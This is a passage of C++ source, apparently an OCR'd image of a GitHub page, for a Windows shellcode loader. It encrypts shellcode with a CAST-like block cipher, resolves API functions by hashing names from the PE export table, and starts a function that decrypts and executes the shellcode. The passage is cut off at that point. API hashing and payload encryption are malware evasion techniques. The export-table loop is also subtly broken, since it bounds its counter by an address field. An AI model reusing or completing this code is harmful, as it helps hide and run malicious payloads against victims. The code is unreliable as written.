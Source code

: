 ```cpp
  uint32_t left = block[0];
  uint32_t right = block[1];

  for (int i = ROUNDS - 1; i >= 0; i--) {
    uint32_t temp = right;
    switch (i % 3) {
      case 0:
        f1(&right, subkeys[i][0]);
        break;
      case 1:
        f2(&right, subkeys[i][1]);
        break;
      case 2:
        f3(&right, subkeys[i][2]);
        break;
    }
    right ^= left;
    left = temp;
  }

  block[0] = right;
  block[1] = left;
}

void cast_encrypt_shellcode(unsigned char* shellcode, int shellcode_len, uint32_t subkeys[ROUNDS][4]) {
  for (int i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    cast_encrypt((uint32_t*)(shellcode + i * BLOCK_SIZE), subkeys);
  }
}

DWORD calcMyHash(char* data) {
  DWORD hash = 0x23;
  for (int i = 0; i < strlen(data); i++) {
    hash += data[i] + (hash << 1);
  }
  return hash;
}

static LPVOID getAPIAddr(HMODULE h, DWORD myHash) {
  PIMAGE_DOS_HEADER img_dos_header = (PIMAGE_DOS_HEADER)h;
  PIMAGE_NT_HEADERS img_nt_header = (PIMAGE_NT_HEADERS)((LPBYTE)h + img_dos_header->e_lfanew);
  PIMAGE_EXPORT_DIRECTORY img_edt = (PIMAGE_EXPORT_DIRECTORY)(
    (LPBYTE)h + img_nt_header->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress);
  PDWORD fAddr = (PDWORD)((LPBYTE)h + img_edt->AddressOfFunctions);
  PDWORD fNames = (PDWORD)((LPBYTE)h + img_edt->AddressOfNames);
  PWORD  fOrd = (PWORD)((LPBYTE)h + img_edt->AddressOfNameOrdinals);

  for (DWORD i = 0; i < img_edt->AddressOfFunctions; i++) {
    LPSTR pFuncName = (LPSTR)((LPBYTE)h + fNames[i]);

    if (calcMyHash(pFuncName) == myHash) {
    //   printf("successfully found! %s - %d\n", pFuncName, myHash);
      return (LPVOID)((LPBYTE)h + fAddr[fOrd[i]]);
    }
  }
  return nullptr;
}

void cast_decrypt_and_execute_shellcode(unsigned char* shellcode, int shellcode_len, uint32_t subkeys[ROUNDS][4]) {
  LPVOID mem_block = NULL;
```